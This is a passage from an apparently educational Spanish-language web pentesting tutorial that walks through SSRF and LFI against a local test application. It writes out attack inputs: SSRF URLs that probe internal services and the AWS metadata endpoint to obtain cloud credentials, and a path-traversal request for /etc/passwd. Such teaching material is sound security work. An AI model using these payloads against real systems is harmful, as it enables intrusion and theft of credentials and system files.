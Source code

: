 Si obtenemos respuestas válidas, sabemos que `file.php` usa parámetros que podrían ser vulnerables.

------

# **🔹 Paso 3: Explotación de SSRF**

## **📌 3.1: Identificar una vulnerabilidad de SSRF**

Las vulnerabilidades **SSRF** permiten que un atacante haga que el servidor realice peticiones HTTP a otros sistemas.

Accedemos a `http://localhost/ssrf.php?url=http://example.com` y observamos la respuesta.

Si el servidor devuelve el contenido de `example.com`, significa que la aplicación es vulnerable a **SSRF**.

------

## **📌 3.2: Explotación SSRF para acceder a recursos internos**

Prueba acceder a servicios internos mediante SSRF:

```bash
http://localhost/ssrf.php?url=http://127.0.0.1:22
```

Si el servidor responde, significa que podemos acceder a servicios internos como **SSH, MySQL o Redis**.

------

## **📌 3.3: Escalar SSRF para robar metadatos de AWS**

Si la aplicación corre en AWS, podríamos acceder a los metadatos del servidor con:

```bash
http://localhost/ssrf.php?url=http://169.254.169.254/latest/meta-data/
```

Si esto devuelve información, podríamos obtener **credenciales de AWS**.

------

# **🔹 Paso 4: Explotación de LFI (Local File Inclusion)**

## **📌 4.1: Identificación de LFI**

Si la aplicación usa `file.php?file=about.html`, intentamos modificar el parámetro:

```bash
http://localhost/file.php?file=../../../../../etc/passwd
```
